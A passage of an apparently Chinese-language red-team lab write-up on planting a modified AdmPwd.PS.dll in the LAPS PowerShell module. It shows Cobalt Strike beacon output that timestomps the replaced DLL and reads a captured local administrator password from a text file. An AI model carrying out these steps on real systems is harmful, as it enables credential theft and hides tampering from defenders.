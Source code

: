 ```
1661474940637.png


上面保存，编译生成一个AdmPwd.PS.dll文件

1661475080201.png

替换源文件，这里如果报进程占用要kill掉进程或者重启计算机

1661475846601.png

同步时间戳
```
beacon> cd C:\Windows\System32\WindowsPowerShell\v1.0\Modules\AdmPwd.PS\
[*] cd C:\Windows\System32\WindowsPowerShell\v1.0\Modules\AdmPwd.PS\
[+] host called home, sent: 69 bytes
beacon> timestomp AdmPwd.PS.dll AdmPwd.PS.psd1
[*] Tasked beacon to timestomp AdmPwd.PS.dll to AdmPwd.PS.psd1
[+] host called home, sent: 1110 bytes
beacon> ls
[*] Tasked beacon to list files in .
[+] host called home, sent: 19 bytes
[*] Listing: C:\Windows\System32\WindowsPowerShell\v1.0\Modules\AdmPwd.PS\

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     05/05/2021 16:14:39   en-US
 16kb     fil     08/23/2016 14:40:58   AdmPwd.PS.dll
 5kb      fil     08/23/2016 14:40:58   AdmPwd.PS.format.ps1xml
 4kb      fil     08/23/2016 14:40:58   AdmPwd.PS.psd1
 33kb     fil     09/22/2016 08:02:08   AdmPwd.Utils.dll
```

1661476576319.png


```
beacon> ls C:\Temp

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
 24b      fil     03/16/2021 18:48:13   LAPS.txt

beacon> shell type C:\Temp\LAPS.txt
WKSTN-2 : P0OPwa4R64AkbJ
```
